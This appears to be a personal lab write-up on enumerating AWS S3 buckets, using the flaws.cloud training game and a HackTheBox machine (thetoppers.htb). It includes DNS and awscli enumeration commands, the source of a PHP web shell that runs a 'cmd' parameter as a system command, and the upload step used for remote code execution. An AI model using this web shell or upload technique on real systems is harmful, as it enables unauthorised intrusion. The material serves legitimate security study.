 ```yaml
---
description: >-
  S3 Buckets enumeration
title: S3 Buckets              # Add title here
date: 2023-05-23 08:00:00 -0600                           # Change the date to match completion date
categories: [16 Cloud, Enumeration]          # Change Templates to Writeup
tags: [cloud, s3 enum, buckets, aws]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### Basic Enumeration

The site `flaws.cloud` is hosted as an S3 bucket. This is a great way to host a static site, similar to hosting one via github pages. Some interesting facts about S3 hosting: When hosting a site as an S3 bucket, the bucket name (`flaws.cloud`) must match the domain name (`flaws.cloud`). Also, S3 buckets are a global name space, meaning two people cannot have buckets with the same name. The result of this is you could create a bucket named `apple.com` and Apple would never be able host their main site via S3 hosting.
You can determine the site is hosted as an S3 bucket by running a DNS lookup on the domain, such as:

```bash
dig +nocmd flaws.cloud any +multiline +noall +answer
# Returns:
# flaws.cloud.            5 IN A  54.231.184.255
```

Visiting `54.231.184.255` in your browser will direct you to `https://aws.amazon.com/s3/`
So you know `flaws.cloud` is hosted as an S3 bucket.

You can then run:
```bash
nslookup 54.231.184.255
# Returns:
# Non-authoritative answer:
# 255.184.231.54.in-addr.arpa     name = s3-website-us-west-2.amazonaws.com
```

So we know it's hosted in the AWS region us-west-2
Side note (not useful for this game): All S3 buckets, when configured for web hosting, are given an AWS domain you can use to browse to it without setting up your own DNS. In this case, flaws.cloud can also be visited by going to `http://flaws.cloud.s3-website-us-west-2.amazonaws.com/`

You now know that we have a bucket named `flaws.cloud` in `us-west-2`, so you can attempt to browse the bucket by using the aws cli by running:
```bash
aws s3 ls  s3://flaws.cloud/ --no-sign-request --region us-west-2
```

If you happened to not know the region, there are only a dozen regions to try. You could also use the GUI tool cyberduck to browse this bucket and it will figure out the region automatically.

Finally, you can also just visit `http://flaws.cloud.s3.amazonaws.com/` which lists the files due to the permissions issues on this bucket.

### Bucket Listing

On AWS you can set up S3 buckets with all sorts of permissions and functionality including using them to host static files. A number of people accidentally open them up with permissions that are too loose. Just like how you shouldn't allow directory listings of web servers, you shouldn't allow bucket listings.

We can interact with this S3 bucket with the aid of the awscli utility. It can be installed on Linux using the
command 

```bash
apt install awscli
```

First, we need to configure it using the following command. We will be using an arbitrary value for all the fields, as sometimes the server is configured to not check authentication (still, it must be configured to something for aws to work).
```bash
aws configure

aws configure          
AWS Access Key ID [None]: Temp
AWS Secret Access Key [None]: Temp
Default region name [None]: Temp
Default output format [None]: Temp
```
> Sometimes the bucket is not properly configured and if that is the case, we can fill this configuration with any random value. However sometimes the bucket does actually requires valid credentials, if that is the case you're going to need your own AWS account for this. You just need the [free tier](https://aws.amazon.com/free).
{: .prompt-warning }

We can list all of the S3 buckets hosted by the server by using the `ls` command.
```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls

2023-05-23 20:30:11 thetoppers.htb
```

We can also use the ls command to list objects and common prefixes under the specified bucket.
```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
                           PRE images/
2023-05-23 20:30:11          0 .htaccess
2023-05-23 20:30:11      11952 index.php
```

### File Upload / Reverse Shell

`awscli` has got another feature that allows us to copy files to a remote bucket. If we know the web script language such as PHP. We can try uploading a PHP shell file to the S3 bucket and since it's uploaded to the webroot directory we can visit this webpage in the browser, which will, in turn, execute this file and we will achieve remote code execution.

We can use the following PHP simple backdoor which uses the system() function which takes the URL parameter
cmd as an input and executes it as a system command, it can be found at `/usr/share/webshells/php/simple-backdoor.php`

```php
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd
```
Then, we can upload this PHP shell to the thetoppers.htb S3 bucket using the following command.

```bash
aws --endpoint=http://s3.thetoppers.htb s3 cp simple-backdoor.php s3://thetoppers.htb
```

Finally, we can visit our web shell via web as follows:
![S3-RCE-Webshell](/assets/img/Pasted image 20230523191126.png)